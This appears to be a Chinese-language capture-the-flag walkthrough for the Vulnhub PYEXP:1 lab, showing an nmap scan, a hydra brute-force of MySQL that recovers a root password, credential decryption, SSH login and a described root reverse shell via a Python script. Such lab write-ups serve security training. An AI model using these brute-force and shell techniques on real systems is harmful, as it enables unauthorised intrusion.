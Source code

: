 ```yaml
---

title: Vulnhub 534 PYEXP-1
date: 2020-08-11
---
```


考点：hydra,python

靶机链接：<https://www.vulnhub.com/entry/pyexp-1,534/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| PYEXP: 1 | 10.0.2.27 |


## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.110
$ sudo nmap -v -A -p- $rip
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, SupportsTransactions, IgnoreSigpipes, ODBCClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolNew, SupportsCompression, DontAllowDatabaseTableColumn, FoundRows, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: BwQo[X([tV0.5]X#A`>V
|_  Auth Plugin Name: mysql_native_password
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

```

这就尴尬了，只有ssh和mysql

### 漏洞发现

先爆破mysql吧

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.27 mysql    
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.0.2.27:3306/
[3306][mysql] host: 10.0.2.27   login: root   password: prettywoman

```

![1](https://www.vulnhub.cn/walkthrough/534/1.webp)

使用在线[fernet算法解密](https://asecuritysite.com/encryption/ferdecode)

![2](https://www.vulnhub.cn/walkthrough/534/2.webp)

获得用户名密码

## 获得权限

使用获得的用户名密码登录成功

![3](https://www.vulnhub.cn/walkthrough/534/3.webp)

## 提权

看来利用点是在exp.py这里了

![4](https://www.vulnhub.cn/walkthrough/534/4.webp)

查看代码，构造python利用

![5](https://www.vulnhub.cn/walkthrough/534/5.webp)

成功接收root权限反弹shell
